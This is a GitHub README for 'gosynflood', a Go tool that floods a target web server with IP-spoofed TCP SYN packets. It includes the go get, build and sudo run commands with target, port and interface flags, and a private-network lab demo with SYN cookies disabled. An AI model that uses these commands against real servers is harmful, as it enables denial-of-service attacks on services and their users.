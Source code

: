 
### gosynflood - Repeatedly Send Crafted TCP SYN Packets with Raw Sockets

###### intended for Ubuntu and other Debian distributions

###### USAGE:
<pre>
  <code>
# get the project
go get github.com/rootVIII/gosynflood


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood -t &lt;target IPV4 address&gt; -p &lt;port number&gt; -i &lt;network interface&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0

** The bin/builds directory has a compiled executable if you do not have
Golang installed or do not want to build it yourself.
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of webserver
-p port number (defaults to port 80 if not provided)
-i network interface (running without -i will fail but suggest found interfaces)

Enter control-c to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. <b>MAC addresses are not spoofed</b>.
It is up to you to spoof your MAC Address beforehand if desired.

This attack may only work on web servers susceptible to numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>